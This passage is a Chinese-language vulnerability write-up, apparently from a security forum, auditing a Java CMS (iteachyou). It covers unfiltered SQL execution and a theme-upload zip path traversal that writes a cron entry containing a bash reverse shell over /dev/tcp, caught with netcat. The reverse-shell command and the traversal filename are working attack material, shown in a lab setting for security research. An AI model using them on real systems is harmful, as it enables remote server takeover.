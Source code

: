 ### 漏洞定位

SQL XML映射文件：`src/main/resources/mapping/SqlMapper.xml`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-adb2851b99a08ecaf31084dd2510d51815233b79.png)  
非常简单，直接执行传入的SQL语句，没有任何过滤，也没有预编译。这里不能多行执行，也就是执行带有`;`号的SQL语句。  
在 Mybatis SQL映射文件中可以通过在SQL语句中添加 `allowMultiQueries=true` 参数来允许多行执行。

```php

    SHOW TABLES;
    SELECT * FROM users;

```

模板自定义标签文件：`src/main/java/cc/iteachyou/cms/taglib/tags/SqlTag.java`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-c0ba715bab0cd56778e739617afbcbd066807b79.png)  
没有进行SQL过滤，但校验了SQL语句开头必须带有`select`，也就是确保只能执行查询语句。

后台压缩校验不正确导致Getshell
-------------------

### 漏洞效果

我们先在 Linux 系统创建`..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root`文件，并写入远连命令。

```php
echo "*/1 * * * * bash -i &gt;&amp; /dev/tcp/127.0.0.1/7777 0&gt;&amp;1" &gt; ..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root
zip -r ./test3.zip ..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root
```

![8.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a6b9d22b26328456606820c3f33d34b17d6f496d.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a1d9bdfd8c27e95ff6b7664bc53e9703c632ee23.png)  
打包完后，通过风格管理上传该压缩包。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-107a16a037c005783006e03aeb0b148db5b5d99f.png)  
提示主题描述不存在，问题不大，这说明解压完成了。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-5bbedcd2d814e04f880e292e3aa57bb73e1c8fca.png)  
在后台日志输出也能看到解压完毕。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-2415ecdb6325dd4a0eada20009d0f880e18defd7.png)  
接着我们到服务机器上看到我们的文件已经写进去了。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-4323ae5bea3f4f9ce02a0bcc6005f37bddaeea92.png)  
通过`nc -lvvp 7777`成功获得服务器权限。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-3356fdbb6d7614503f610ffa271cad5060e5bb87.png)

### 漏洞定位

Controller文件：`src/main/java/cc/iteachyou/cms/controller/admin/ThemesController.java`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-e1512a35a58f3da4bca4d8916680f1c9b11065aa.png)  
在添加主题中调用了`unZipFiles`，我们具体看看这个工具类方法。  
工具类文件：`src/main/java/cc/iteachyou/cms/utils/ZipUtils.java`
